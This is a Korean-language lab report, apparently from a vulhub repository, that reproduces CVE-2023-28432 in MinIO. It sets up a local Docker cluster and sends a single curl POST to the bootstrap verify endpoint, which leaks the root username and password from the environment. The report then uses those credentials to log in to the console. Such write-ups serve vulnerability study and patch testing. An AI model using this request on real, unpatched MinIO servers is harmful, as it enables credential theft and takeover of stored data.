 # CVE-2023-28432 MinIO 취약점 PoC 보고서

## 개요

-**CVE 번호**: CVE-2023-28432
-**대상 서비스**: MinIO
-**취약점 정보**: RELEASE.2023-03-20T20-16-18Z 이전 버전에서는 MinIO가 클러스터 모드로 배포될 경우 정보 유출 취약점이 존재한다. 공격자는 HTTP 요청을 사용해 대상 프로세스의 모든 환경 변수를 획득할 수 있다.

## 레퍼런스
- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>
- <https://github.com/vulhub/vulhub/tree/master/minio/CVE-2023-28432>



## 취약점 재현 과정

### 1. 컨테이너 실행

다음 명령어를 사용해 MinIO 클러스터를 시작한다.

'''docker compose up -d'''

![alt text](image-1.png)



### 2. Web 콘솔 접속

클러스터가 시작되면 http://localhost:9001 으로 브라우저에 접속이 가능하다.

![alt text](image.png)


### 3. 취약점 재현

API 엔드포인트에 문제가 있다. 

'''curl -X POST http://localhost:9000/minio/bootstrap/v1/verify'''

curl 명령어를 사용해 /minio/bootstrap/v1/verify 엔드포인트에 POST 요청을 보냈다.

![alt text](image-2.png)

MINIO_ROOT_USER와 MINIO_ROOT_PASSWORD가 노출되어 있는 것을 확인할 수 있다. 

"MINIO_ROOT_USER":"minioadmin"
"MINIO_ROOT_PASSWORD":"minioadmin-vulhub"

이 아이디와 비밀번호로 웹 콘솔에 로그인하는 것이 가능하다.

![alt text](image-3.png)


Pull request 링크
<https://github.com/gunh0/kr-vulhub/pull/247>
